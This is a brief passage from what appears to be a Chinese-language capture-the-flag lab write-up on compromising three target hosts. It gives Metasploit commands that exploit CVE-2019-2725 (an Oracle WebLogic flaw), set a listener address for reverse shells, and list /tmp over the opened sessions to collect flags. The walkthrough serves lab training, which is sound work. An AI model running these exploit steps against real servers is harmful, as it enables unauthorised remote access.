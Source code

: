 ![alt text](image-28.png)

出现404错误，说明网络层联通，但应用层请求了一个不存在的地址。

### 攻破靶标2-4，并获得flag

我们已知拓扑中三台主机均存在cve-2019-2725漏洞，因此选择利用它。

```
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.170.84.2
# 分别设置不同的靶机 IP （一共需要设置三次）
set lhost 192.168.56.108
# 分别 run（一共要run三次）
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```
